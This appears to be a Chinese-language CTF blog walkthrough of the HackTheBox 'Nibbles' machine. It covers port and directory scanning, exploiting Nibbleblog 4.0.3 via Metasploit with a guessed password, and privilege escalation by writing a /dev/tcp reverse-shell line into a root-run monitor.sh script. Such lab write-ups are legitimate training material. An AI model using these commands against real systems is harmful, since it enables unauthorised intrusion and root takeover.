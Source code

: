 ```yaml
---
title: Nibbles
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_18.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# Nibbles

- **Nibbles是hackthebox中的一台简单靶机**

- nmap查看靶机端口以及漏洞

![image-20211013092148207](http://cdn.mxrblog.cn/image-20211013092148207.png)

- 使用nmap发现靶机开启了22号和80端口，开启了ssh服务和http服务，但通过nmap未发现什么漏洞
- 使用web浏览器打开靶机80端口

![image-20211013092010736](http://cdn.mxrblog.cn/image-20211013092010736.png)

- 只有一句Hello world! 没什么其他有用的东西
- 使用dirsearch和gobuster查看网页目录，发现没什么有价值的东西

![image-20211013093528608](http://cdn.mxrblog.cn/image-20211013093528608.png)

- 再次回到网页，查看网页的html，这次有了提示——一行注释：提醒我们nibbleblog这个子目录可能存在什么东西

![image-20211013093427695](http://cdn.mxrblog.cn/image-20211013093427695.png)

- 查看http://10.10.10.75/nibbleblog/

![image-20211013093849097](http://cdn.mxrblog.cn/image-20211013093849097.png)

- 再次使用dirsearch扫描

![image-20211013122037090](http://cdn.mxrblog.cn/image-20211013122037090.png)

- 查看readme文件内容

![image-20211013122137510](http://cdn.mxrblog.cn/image-20211013122137510.png)

- 给出了一个4.0.3版本，上网搜索nibbleblog知道这是一个博客引擎，searchsploit查看一下是否存在漏洞

![image-20211013122314599](http://cdn.mxrblog.cn/image-20211013122314599.png)

- 通过searchsploit搜索得知我们可以使用msf来完成渗透

![image-20211013122743444](http://cdn.mxrblog.cn/image-20211013122743444.png)

- 密码为nibbles  （**猜测出来的**）

![image-20211013154254549](http://cdn.mxrblog.cn/image-20211013154254549.png)

- 使用python获取交互式界面

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

- 获得user.txt

![image-20211013154832647](http://cdn.mxrblog.cn/image-20211013154832647.png)

- 查看是否有可以使用的root权限命令

![image-20211013155458111](http://cdn.mxrblog.cn/image-20211013155458111.png)

- 将反弹shell命令写入monitor.sh脚本中，kali打开nc监听

```
echo "#! /bin/bash" > monitor.sh
echo "/bin/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1" > monitor.sh
//echo "su" >> monitor.sh  这样执行后无需反弹shell直接能获取root权限 
```

![image-20211013162727965](http://cdn.mxrblog.cn/image-20211013162727965.png)

![image-20211013162851253](http://cdn.mxrblog.cn/image-20211013162851253.png)



